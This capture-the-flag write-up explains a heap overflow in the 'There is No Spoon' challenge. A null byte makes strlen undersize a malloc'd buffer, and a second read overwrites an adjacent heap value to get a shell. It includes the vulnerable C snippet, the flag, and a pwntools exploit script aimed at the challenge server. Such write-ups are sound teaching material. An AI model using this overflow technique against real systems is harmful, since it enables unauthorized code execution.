 # There is No Spoon

So, it reads 256 bytes of data into a 256 byte buffer. It stores the length read in len. It then uses malloc to create another buffer, with the size of this buffer being the strlen length of the first one. It then reads len amount into the second buffer, and XORs the two. Also, there is another data value on the heap - changeme, just after our second buffer. If we change it from 0xff, then a shell is popped.


Clearly, our goal is to achieve some sort of BOF in buffer2 so that we can overwrite changeme.

The vulnerability lies here:
```c
    len = read(0, buffer, len);

    char * buffer2 = malloc(strlen(buffer));

    int * changeme = malloc(sizeof(int));
    *changeme = 255;
    printf("Reality: %d\n", *changeme);

    printf("Make your choice: ");
    len = read(0, buffer2, len);
```

If the amount that we send is larger than the strlen length of what we send, there's heap overflow. We can accomplish this by just adding a null byte in our input. Then, we just spam characters until changeme is overwritten, and a shell is popped.

#### Flag: flag{l0tz_0f_confUsi0n_vulnz}

```py
from pwn import *
e = ELF("./spoon")
p = e.process() if args.LOCAL else remote('chal.ctf.b01lers.com', 1006)
p.clean()
p.sendline('t\x00gfhrejbfhghgajfvjbhgfcjjbgfdchjvjhbfrdhjkxcjkhd')
p.sendline("jgtfvhbgbfvbjbjhijfrjknsdjrfjkregfffffffvntrefkvet")
p.interactive()
```
